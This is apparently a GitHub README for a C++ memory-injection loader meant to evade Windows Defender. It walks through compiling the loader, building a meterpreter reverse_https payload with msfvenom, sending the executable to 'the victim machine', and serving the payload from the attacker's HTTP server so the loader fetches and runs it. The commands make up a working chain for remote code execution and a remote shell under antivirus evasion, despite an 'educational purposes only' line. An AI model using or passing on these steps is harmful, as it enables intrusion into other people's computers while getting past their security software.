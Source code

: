 <h1 align="center">💀Evade Windows AV💀</h1>

<br>

>This repository focuses on storing a memory injection code written in c++ in order to evade windows defender, also using a metasploit payload.
>

>
>Obs: These scripts are for educational purposes only. Use them at your own risk!

>Works on Linux!
>

<br>

<p align="center">
	<img width="400" height="400" src="https://github.com/EndlssNightmare/BypassAV/blob/main/Fotos/metasploit-ascii-1-2.png">
</p>

<br>

<body>
   <h2 align="left"> Dependences:</h2>

<br>

  >
  >Create a SSL/TLS Certificate:<a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> SSL Certificate</a>
  >

  >
  >C/C++ Compiler:<a href="https://www.mingw-w64.org" > Mingw32</a>
  >

  >
  >Metasploit Framework:<a href="https://www.metasploit.com"> Metasploit Framework</a>>
  >
<br>

  <h2 align="left"> How to run the script:</h2>

<br>

Upgrade your apt package: `sudo apt update && sudo apt upgrade`

<br>

Install the C/C++ compiler: `sudo apt-get install g++-mingw-w64-x86-64`

<br>

Compile the code: `x86_x64-w64-mingw32-g++ --static -o name.exe BypassAV.cpp -fpermissive -lws2_32`

<br>

Create a SSL/TLS Certificate: 

<br>

```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

<br>

Create your own Metasploit configured payload: `msfvenom -p windows/x64/meterpreter/reverse_https lhost=yourip lport=port HandlerSSLCert=/home/kali/www.example.com.pem StagerVerifySSLCert=true -f raw -o beacon.bin`

<br>

Send the executable file to the victim machine.

<br>

Set a listener on msfconsole: `msfconsole -r meta.rc`

<br>

Set a http listener to grab de beacon.bin with the executable on victim machine: `python -m http.server 8000`

<br>

On the executable, set your ip, the port of http server and the beacon.bin file: `./BypassAV.exe YOURIP HTTPPORT beacon.bin`

<br>

## References and Credits:
  
  <br>

  ><a href="https://github.com/TheD1rkMtr/Shellcode-Hide"> Repository reference.</a>
  >
  ><a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> Custom SSL/TSL Certificate.</a>
  >
  ><a href="https://www.youtube.com/@gemini_security"> Gemini Security</a>

  <br>
